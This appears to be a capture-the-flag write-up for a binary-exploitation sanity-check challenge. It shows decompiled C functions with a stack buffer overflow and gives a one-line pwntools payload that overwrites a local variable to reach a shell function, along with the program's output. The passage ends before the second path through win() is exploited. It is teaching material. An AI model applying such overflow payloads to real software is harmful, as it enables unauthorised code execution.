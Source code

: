 This was a sanity check challenge for the PWN category. 

We were provided a 64-bit ELF file containing the following functions:

vuln():
```c
void vuln(void)

{
  char local_48 [60];
  int local_c;
  
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
```

shell():
```c
void shell(void)

{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
```

win():
```c
void win(int param_1,int param_2)

{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
}
```

I initially attempted a variable overwrite in order to reach the shell() function. Specially, I overwrote `local_c` so that it would equal `-0x21523f22` (which is equivalent to `0xdeadc0de`)


```console
root@osboxes:~/Downloads# python -c 'from pwn import *;print "A" * 60 + p64(0xdeadc0de)' | ./pwn_sanity_check 
tell me a joke
very good, here is a shell for you. 
spawning /bin/sh process
wush!
$> If this is not good enough, you will just have to try harder :)
```
